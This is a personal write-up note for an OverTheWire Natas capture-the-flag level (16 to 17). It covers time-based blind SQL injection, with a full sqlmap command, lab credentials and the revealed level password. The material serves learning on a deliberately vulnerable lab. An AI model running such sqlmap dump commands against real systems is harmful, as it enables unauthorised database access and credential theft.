 # 16 -> 17

- this looks the same as a previous challenge
- result is commented out
-  `sqlmap -u "http://natas17.natas.labs.overthewire.org/index.php" --auth-type=Basic --auth-cred=natas17:8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw --data="username=natas18" --level=3 --risk=1 --technique=B --threads=4 --dbms=MySQL -D natas17 -T users -C username,password --dump --batch`
    - doesn't work

## [Writeup](https://caminek.rocks/2021/05/28/natas16-17/)

- we can add to SQL query
- using sleep command $\implies$Timing attack
- followed sqlmap & Python

> pass: xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP 
